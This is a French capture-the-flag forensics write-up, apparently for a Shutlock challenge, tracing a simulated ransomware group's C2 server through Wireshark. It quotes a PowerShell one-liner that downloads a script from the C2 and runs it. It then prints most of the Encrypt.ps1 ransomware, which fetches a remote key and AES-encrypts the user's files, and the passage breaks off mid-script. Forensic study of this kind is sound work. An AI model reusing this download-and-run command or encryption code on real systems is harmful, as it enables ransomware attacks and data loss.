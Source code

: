 Grâce à la partie précédente, on a le C2 (Command and Control) du groupe **THE HARMOR** : 172.21.195.17. On sait également qu'il utilise le protocol `http`

````powershell
IGotYourFileInfo - [Invoke-WebRequest :: -Uri http://172.21.195.17:5000/Holmes/GetFileInfo.ps1 -OutFile GetFilesInfo.ps1 ; Start-Process -FilePath GetFilesInfo.ps1] (Author)
````

On filtre sur le C2 de l'attaquant ainsi que sur le protocole http 
 `ip.addr == 172.21.195.17 and http` sur wireshark

On récupère ainsi tous les scripts et fichiers :

- `Enigma.ps1` : Script initial permettant de télécharger et ouvrir le pdf, de créer la tâche planifiée, de chiffre le file system, de changer le fond d'écran et enfin d'afficher les instructions.
- `Encrypt.ps1` : Chiffre le FS
- `key.txt`

Le script qui nous intéresse est `Encrypt.ps1`

172.21.195.17	HTTP	GET /Holmes/Encrypt.ps1 HTTP/1.1 

**Contenu du script Encrypt.ps1 :**

```powershell
# Define the directories to search for files
$IP_addr = '172.21.195.17:5000'
$directories = @("$env:USERPROFILE")

# Define the file extensions to encrypt
$extensions = @(".png", ".doc", ".txt", ".zip")
$keyUrl = "http://$IP_addr/Holmes/key.txt"

# Download the key from the URL
$keyContent64 = Invoke-WebRequest -Uri $keyUrl | Select-Object -ExpandProperty Content
$keyContent = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($keyContent64))

# Use SHA-256 hash function to produce a 32-byte key
$sha256 = [System.Security.Cryptography.SHA256]::Create()
$key = $sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($keyContent))
$iv = [System.Security.Cryptography.RijndaelManaged]::Create().IV

# Sauvegarder l'IV dans un fichier
$ivFilePath = "$env:USERPROFILE\Documents\iv"
[System.IO.File]::WriteAllBytes($ivFilePath, $iv)

# Create a new RijndaelManaged object with the specified key
$rijndael = New-Object System.Security.Cryptography.RijndaelManaged
$rijndael.Key = $key
$rijndael.IV = $iv
$rijndael.Mode = [System.Security.Cryptography.CipherMode]::CBC
$rijndael.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7


# Go through each directory
foreach ($dir in $directories) {
    # Go through each file
    Get-ChildItem -Path $dir -Recurse | ForEach-Object {
        # Check the file extension
        if ($extensions -contains $_.Extension) {
            # Generate the new file name
            $newName = $_.FullName -replace $_.Extension, ".shutlock"

            # Read the file contents in bytes
            $contentBytes = [System.IO.File]::ReadAllBytes($_.FullName)

            # Create a new encryptor
```